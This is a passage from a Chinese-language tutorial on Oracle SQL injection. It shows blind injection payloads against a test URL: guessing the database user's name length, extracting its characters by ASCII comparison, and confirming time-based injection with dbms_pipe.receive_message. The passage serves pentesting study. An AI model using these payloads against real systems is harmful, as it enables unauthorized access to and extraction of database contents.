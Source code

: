 **获取数据长度**

```
http://hackrock.com:8080/oracle/?id=1 and (select length(user) from dual)=3 --+
```

**猜解ASCII码**

```
http://hackrock.com:8080/oracle/?id=1 and (select ascii(substr(user,1,1))from dual)>65 --+
```

```
payload构造如上。
```

##### 12)**时间型盲注**

```
oracle注入中可以通过页面响应的状态，这里指的是响应时间，通过这种方式判断SQL是否被执行的方式，便是时间盲注。

oracle的时间盲注通常使用DBMS_PIPE.RECEIVE_MESSAGE()，而另外一种便是decode()与高耗时SQL操作的组合，当然也可以是case，if 等方式与高耗时操作的组合，这里的高耗时操作指的是，例如：(select count(*) from all_objects)，对数据库中大量数据进行查询或其他处理的操作，这样的操作会耗费较多的时间，然后通过这个方式来获取数据。这种方式也适用于其他数据库。
```

###### 1.**dbms_pipe.receive_message()函数时间盲注**

```
DBMS_LOCK.SLEEP()函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。

首先，不能直接将该函数注入子查询中，因为Oracle不支持堆叠查询(stacked query)。其次，只有数据库管理员才能使用DBMS_LOCK包。

在Oracle PL/SQL中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

dbms_pipe.receive_message('RDS', 10)

DBMS_PIPE.RECEIVE_MESSAGE()函数将为从RDS管道返回的数据等待10秒。默认情况下，允许以public权限执行该包。

DBMS_LOCK.SLEEP()与之相反，它是一个可以用在SQL语句中的函数。
```

```
查看是否可以使用dbms_pipe.receive_message()函数进行延时注入
```

```
http://hackrock.com:8080/oracle/?id=1 and 1=(dbms_pipe.receive_message('RDS',5)) --+
```
